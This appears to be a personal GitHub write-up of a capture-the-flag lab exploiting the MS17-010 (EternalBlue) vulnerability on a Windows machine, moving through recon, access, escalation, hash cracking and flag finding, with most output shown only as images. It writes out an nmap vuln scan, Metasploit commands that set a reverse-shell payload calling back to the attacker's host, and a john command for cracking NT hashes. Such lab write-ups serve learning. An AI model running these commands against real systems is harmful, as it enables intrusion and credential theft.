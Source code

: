 # Tasks

1. [**Recon**](#recon)
2. [**Gain Access**](#gain-access)
3. [**Escalate**](#escalate)
4. [**Cracking**](#cracking)
5. [**Find flags**](#find-flags)

# Recon

## Problems and Answers

![image](https://github.com/user-attachments/assets/de0fc226-2fc2-4bd5-903b-e09d93adf425)

## Solution

**Default scan:**

![image](https://github.com/user-attachments/assets/5ac5ef4e-f122-41d9-9661-2e659ce8958e)

**Vuln script scan:**

![image](https://github.com/user-attachments/assets/34a877cd-1049-45e7-858c-27aede5444a7)

**Note:** Could probably use _Nessus_ to find the CVE, but the _vuln script_ in **nmap** was more convenient for me lmao

Btw, here's how it looks:

```
nmap -sV --script vuln [IP Address]
```

# Gain Access

## Problems and Answers

![image](https://github.com/user-attachments/assets/ca14971c-8428-45f2-8c3d-e7c70cca0d1b)

## Solution

![image](https://github.com/user-attachments/assets/37d6a0b5-9ece-4424-bff8-3d98a72b3657)

![image](https://github.com/user-attachments/assets/89250fd8-e47d-42b7-ae68-f9d3e174f306)

Summary of **msfconsole** commands:

```
search ms17-010
use [exploit file path]
show options
set RHOSTS [Target IP]
set LHOST [Host IP]
set payload windows/x64/shell/reverse_tcp // Just for learning purposes so we know how to make our own meterpreter shell if need be
exploit
```

# Escalate

## Problems and Answers

![image](https://github.com/user-attachments/assets/6ea806b9-033d-483e-985f-fcd6496e959c)

## Solution

Got told to search myself how to upgrade a session into a meterpreter shell, so...

[**Upgrading shells to Meterpreter - Metasploit**](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

[**Shell to Meterpreter Upgrade - Metasploit**](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/shell_to_meterpreter)

Anyways, we found that out, so moving on

**Using the meterpreter upgrade:**

![image](https://github.com/user-attachments/assets/0fa5277f-0222-4703-ae21-79b558afc508)

It stopped a bunch of times btw lmao

Also here, so you don't forget how to use a _session_ next time:

```
sessions -i [ID Number]
```

Anyways, here's the rest of the steps according to the instructions:

![image](https://github.com/user-attachments/assets/407e2353-ea04-46fb-8e14-b95fa4c69584)

![image](https://github.com/user-attachments/assets/5e71b944-e4c6-41f6-a8aa-47435bfd4846)

**Note:** It's a lot of processes dw abt it

![image](https://github.com/user-attachments/assets/15905b60-85b5-46ed-b7a7-4d9c3fabcef1)

# Cracking

## Problems and Answers

![image](https://github.com/user-attachments/assets/b30e7538-794d-4fb9-a3a5-2d7a7c52292e)

## Solution

Get them hashes:

![image](https://github.com/user-attachments/assets/fa4a3e12-701a-4909-ad99-df848e7c722d)

Now, it's time for **hash cracking**

Now normally, I would run this:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt [Hash File]
```

But for some goofy ahh reason, my john isn't working ://

So we resort to an online NTLM Hash Cracker

![image](https://github.com/user-attachments/assets/17079134-8e5b-4832-9315-7c178759adcf)

P.S. Still salty af abt john not working

# Find flags

## Problems and Answers

![image](https://github.com/user-attachments/assets/093d4743-94e2-45d0-976c-bb902eadf00a)

## Solution

**Flag 1:**

![image](https://github.com/user-attachments/assets/9688f047-8f4e-49da-9d45-ef26b514b0ca)

**Flag 2:**

![image](https://github.com/user-attachments/assets/9c92a0fc-0f3d-4092-8e37-8cd31526f85a)

**Flag 3:**

![image](https://github.com/user-attachments/assets/1548f405-3eb4-45f9-89c8-cb0507988c65)

